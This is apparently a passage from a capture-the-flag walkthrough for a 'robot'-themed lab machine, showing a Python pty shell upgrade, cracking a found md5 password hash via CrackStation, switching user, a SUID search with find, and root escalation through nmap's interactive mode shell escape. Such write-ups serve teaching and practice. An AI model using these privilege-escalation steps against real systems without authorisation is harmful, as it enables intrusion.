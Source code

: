 <img src="https://i.imgur.com/5vXAQnh.png">

<br><big> * Let's upgrade shell </big>

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm

<br><big> * After a while i found **md5-password** in **/home/robot/** i can **read it**</big>
<br><big> * Lets try to **crack** it and login as **robot** </big>
<br><big> * You can use <a href="https://github.com/openwall/john">John</a> to **crack** it but i will use **webpage** <a href="https://crackstation.net/">CrackStation</a>, just copy paste :)

<img src="https://i.imgur.com/YcFpN6U.jpg">

<br><big> * We can't **ssh** so let's just try to use **su robot** </big>
<br><big> * And we are in, now we can read **key number 2** </big>

# <big>`Privilege escalation to root (third key)`</big>

<br><big> * Let's try to use command **find** to escalate to **root** </big>

    find / -perm -u=s -type f 2>/dev/null

<img src="https://i.imgur.com/jB7U7Ps.png">

<br><big> * And we can see nmap so lets try to get **root** through **interactive** mode

    nmap --interacive
    !sh

<br><big> * And as you can see we are **root** so we can take **third key**

<img src="https://i.imgur.com/OvCYnug.png">


<big> Amar#0484 </big>


## [Back to main page](./../..)

